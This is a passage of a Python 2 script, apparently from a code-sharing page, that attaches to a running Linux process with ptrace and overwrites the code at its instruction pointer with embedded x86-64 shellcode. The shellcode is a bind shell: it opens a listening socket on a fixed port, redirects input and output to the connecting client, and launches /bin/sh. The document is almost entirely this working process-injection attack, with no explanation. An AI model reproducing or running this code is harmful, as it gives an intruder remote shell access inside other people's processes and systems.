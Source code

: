 ```python
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")

pid=int(sys.argv[1])

libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

for i in xrange(0,len(shellcode),4):

  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)

  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)
```